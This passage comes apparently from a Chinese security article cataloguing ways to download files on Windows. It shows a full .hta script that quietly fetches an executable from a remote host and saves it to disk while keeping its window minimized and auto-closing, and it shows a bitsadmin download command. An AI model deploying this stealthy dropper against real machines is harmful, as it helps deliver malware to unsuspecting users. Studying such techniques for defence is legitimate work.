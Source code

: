 执行后会提示没有权限，很有趣的地方，更多的细节会在以后的文章介绍

![Alt text](http://drops.javaweb.org/uploads/images/a4704b23377475130c52fac6f1af8e052418d31a.jpg)

![Alt text](http://drops.javaweb.org/uploads/images/99676797191deaf0795dae3be783fe148a65af5f.jpg)

### 7、hta

添加最小化和自动退出hta程序的功能，执行过程中会最小化hta窗口，下载文件结束后自动退出hta程序

以下代码保存为.hta文件：

```
<html>
<head>
<script>
var Object = new ActiveXObject("MSXML2.XMLHTTP");
Object.open("GET","http://192.168.174.145/ssss2.exe",false);
Object.send();
if (Object.Status == 200)
{
    var Stream = new ActiveXObject("ADODB.Stream");
    Stream.Open();
    Stream.Type = 1;
    Stream.Write(Object.ResponseBody);
    Stream.SaveToFile("C:\\test\\update\\ssss2.exe", 2);
    Stream.Close();
}
window.close();
</script>
<HTA:APPLICATION ID="test"
WINDOWSTATE = "minimize">
</head>
<body>
</body>  
</html>

```

### 8、bitsadmin

bitsadmin是一个命令行工具，可用于创建下载或上传工作和监测其进展情况。xp以后的Windows系统自带

使用方法：

cmd下：

```
bitsadmin /transfer n http://download.sysinternals.com/files/PSTools.zip  C:\test\update\PSTools.zip 

```

下载成功如图：
